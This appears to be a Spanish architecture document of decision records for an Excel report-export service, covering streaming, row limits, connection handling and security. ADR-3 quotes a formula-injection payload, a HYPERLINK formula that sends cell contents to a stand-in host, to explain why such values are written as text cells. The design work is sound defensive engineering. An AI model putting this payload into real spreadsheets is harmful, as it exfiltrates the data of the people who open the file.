

# Arquitectura

## Flujo de una exportación

## ADR-1: streaming de punta a punta, sin DataFrame

**Contexto.** La implementación obvia (`pandas.read_sql` y luego `to_excel`) materializa la tabla completa en memoria, la copia al construir el libro y otra vez al serializarlo: la memoria crece por un factor de la tabla, y una exportación grande puede tumbar la instancia (y con ella a los demás usuarios).

**Decisión.** `execute(stream_results=True)` + `result.partitions(n)` para leer; `Workbook(write_only=True)` para escribir fila a fila; el archivo en construcción en un `SpooledTemporaryFile` que se vuelca a disco por encima de `SPOOL_MAX_BYTES`; la respuesta se emite por bloques y el temporal se cierra (y borra) al terminar o abortar.

**Consecuencias.** La memoria depende del tamaño de bloque, no de la tabla (el test la mide con `tracemalloc` para 3.000 y 9.000 filas y exige que el pico no crezca de forma proporcional). A cambio, se pierden las utilidades de pandas (no hacen falta) y el formato por celda es más acotado en modo `write_only`.

## ADR-2: tope de filas con `LIMIT max_rows + 1`

Una hoja de Excel admite 1.048.576 filas, y aun por debajo de eso un reporte enorme es una mala idea para un servicio HTTP síncrono. La consulta pide una fila de más: si llega, hay más datos que el tope y se responde **413** pidiendo acotar el filtro, sin haber recorrido toda la tabla. El tope es configurable y se valida contra el límite de Excel al arrancar.

## ADR-3: inyección de fórmulas

Los datos de un reporte los escriben usuarios. `openpyxl` trata como fórmula cualquier cadena que empiece con `=`: un nombre `=HYPERLINK("http://malo/?"&A1, "clic")` se evaluaría al abrir el archivo en Excel (exfiltración de otras celdas, ejecución de funciones).

La mitigación más citada es anteponer un apóstrofo, pero en un `.xlsx` generado por programa ese apóstrofo **no** es un prefijo de entrada sino un carácter literal, visible en la celda, que además altera el dato (un teléfono `+573001112233` pasaría a `'+573001112233`). En su lugar, esos valores se escriben con tipo de celda *texto*: Excel no los evalúa y el contenido queda intacto. Un test lo verifica leyendo el tipo de dato de la celda.

## ADR-4: engines desechables por exportación

Hay muchos clientes y los reportes son infrecuentes. Un pool por cliente mantendría conexiones abiertas a decenas de bases para usarlas de vez en cuando y agotaría los límites de conexiones de los servidores. Se usa `NullPool`: se abre una conexión, se usa y se cierra (`dispose()` en un `finally`). Solo la consulta a la BD maestra usa un pool pequeño y compartido.

## ADR-5: reportes declarativos

Una `ReportSpec` define tabla, columnas permitidas y cómo filtrar. Consecuencias de seguridad:

- Los **identificadores SQL nunca salen de la petición**: tabla y columnas vienen de la definición y se arman con `table()`/`column()` (con entrecomillado), no con f-strings.
- Los **valores** siempre van como parámetros enlazados.
- Se valida el esquema del cliente con el `inspector` antes de consultar, de modo que una columna faltante es un **422** explicativo y no un error de motor (que además difiere entre MySQL y SQLite).

## ADR-6: contrato de errores y fugas de información

- Cliente inexistente y `client_id` malformado devuelven la misma respuesta (404): el endpoint no es un oráculo para enumerar clientes. El `client_id` se valida con regex porque termina en el nombre de archivo de la cabecera `Content-Disposition` (inyección de cabeceras) y, en el modo demo, en una ruta.
- Los errores de base de datos se registran con detalle en el log y se devuelven como 503 genéricos.
- El token viaja en la cabecera `Authorization`, no en el query string: las URL se registran en proxies, balanceadores e historiales.

## Observabilidad

Logs JSON con `correlation_id` y traza de GCP/W3C. Cada exportación deja un evento `report_exported` con cliente, reporte, filas y filtros (sin datos), útil como auditoría de "quién exportó qué".

## Límites conocidos

- Un solo hilo por exportación y respuesta síncrona: para reportes de minutos conviene un patrón de trabajo asíncrono (encolar y entregar por enlace), que encaja con [file-service-fastapi](https://github.com/santiagovalenzuelalopez-gif/file-service-fastapi).
- Formato mínimo (encabezado en negrita, panel congelado, anchos): el modo `write_only` limita el estilo por celda.
- El modo `master` (MySQL) no se ejercita en los tests; sí la construcción de la URL y el escape de credenciales.
